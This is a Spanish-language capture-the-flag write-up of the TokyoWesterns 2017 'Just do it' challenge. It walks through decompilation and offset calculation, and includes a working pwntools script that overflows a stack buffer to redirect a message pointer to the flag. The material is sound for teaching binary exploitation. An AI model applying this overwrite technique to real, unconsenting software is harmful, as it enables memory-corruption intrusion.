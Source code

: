 ```yaml
---
layout: post
title: Just do it - Nightmare
tags: [ctf, rev, nightmare]
---
```


**Just do it** \\
TokyoWesterns 2017 ctf


## Análisis

**pwn checksec**:
```
Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

"PIE: No PIE (0x8048000)" indica que el ejecutable no es un ejecutable independiente de posición y se cargará en la dirección base fija "0x8048000". Esto es importante para el análisis de seguridad ya que se mantendrán las direcciones entre ejecuciones.

## Ghidra

```c
undefined4 main(void)

{
  char *input_ptr;
  int cmp_pass;
  char usrInput [16];
  FILE *file_ptr;
  char *result_message;
  undefined *local_c;
  
  local_c = &stack0x00000004;
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  result_message = failed_message;
  file_ptr = fopen("flag.txt","r");
  if (file_ptr == (FILE *)0x0) {
    perror("file open error.\n");
    exit(0);
  }
  input_ptr = fgets(flag,0x30,file_ptr);
  if (input_ptr == (char *)0x0) {
    perror("file read error.\n");
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  input_ptr = fgets(usrInput,0x20,stdin);
  if (input_ptr == (char *)0x0) {
    perror("input error.\n");
    exit(0);
  }
  cmp_pass = strcmp(usrInput,PASSWORD);
  if (cmp_pass == 0) {
    result_message = success_message;
  }
  puts(result_message);
  return 0;
}
```
El codigo realiza lo siguiente:
1. Abre un archivo llamado "flag.txt" en modo de lectura.
2. Lee una cadena de texto desde el archivo "flag.txt" y la almacena en la variable flag.
3. Pide al usuario que ingrese una contraseña a través de la entrada estándar.
4. Compara la contraseña ingresada por el usuario (usrInput) con una contraseña almacenada en la variable PASSWORD.
5. Dependiendo de si la contraseña ingresada coincide con la contraseña almacenada en PASSWORD, se establece el mensaje de resultado en success_message o failed_message.
6. Imprime el mensaje de resultado en la salida estándar.
7. El programa retorna 0 al finalizar, lo que indica que se ejecutó sin errores.

Son los puntos 3 y 6 los que nos permitiran resolver el desafío ya que mediante un bufferoverflow se puede sobreescribir el puntero "result_message" para que apunte a la cadena "flag" y lo imprima al final del programa.

## Exploit

Lo primero que necesito es saber la posición de memoria en la que se almacenará la bandera al leerla del archivo "flag.txt".
```
[0x080485bb]> is
[...]
74  0x000005bb 0x080485bb GLOBAL FUNC   337      main
76  ---------- 0x0804a040 GLOBAL OBJ    0        __TMC_END__
78  ---------- 0x0804a080 GLOBAL OBJ    48       flag
79  0x00001034 0x0804a034 GLOBAL OBJ    4        success_message
80  0x000003f8 0x080483f8 GLOBAL FUNC   0        _init
81  0x0000103c 0x0804a03c GLOBAL OBJ    4        PASSWORD
[...]
```

Se guardará en la dirección **0x0804a080**.

A continuación, utilizo **radare2** para calcular la distancia entre la entrada del usuario y "result_message".

```
┌ 337: int main (char **argv);
│           ; var int32_t usrInput @ ebp-0x20
│           ; var int32_t file_ptr @ ebp-0x10
│           ; var int32_t result_message @ ebp-0xc
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg char **argv @ esp+0x54
│           0x080485bb      8d4c2404       lea ecx, [argv]
│           0x080485bf      83e4f0         and esp, 0xfffffff0
│           0x080485c2      ff71fc         push dword [ecx - 4]
│           0x080485c5      55             push ebp
│           0x080485c6      89e5           mov ebp, esp
│           0x080485c8      51             push ecx
│           0x080485c9      83ec24         sub esp, 0x24
│           0x080485cc      a160a00408     mov eax, dword [obj.stdin]
```

Calculo la diferencia

```
    0x20
  -  0xc
----------
    0x14
```

### Script

Conociendo la dirección de memoria a sobreescribir y el padding, hacer el script es muy sencillo.

```py
from pwn import *

# Iniciar el proceso
target = process('just_do_it')

# Crear payload
payload = b"A" * 0x14 # Padding
payload += p32(0x0804a080) # obj.flag dirección

# Enviar el payload
target.sendline(payload)

target.interactive()
```

Ahora ejecuto el script.

```
h3rshel@kali:~/Desktop/reversing$ python3 exploit.py
Welcome my secret service. Do you know the password?
Input the password.
TWCTF{pwnable_warmup_I_did_it!}
```

Página original: **[Nightmare](https://guyinatuxedo.github.io/)**.

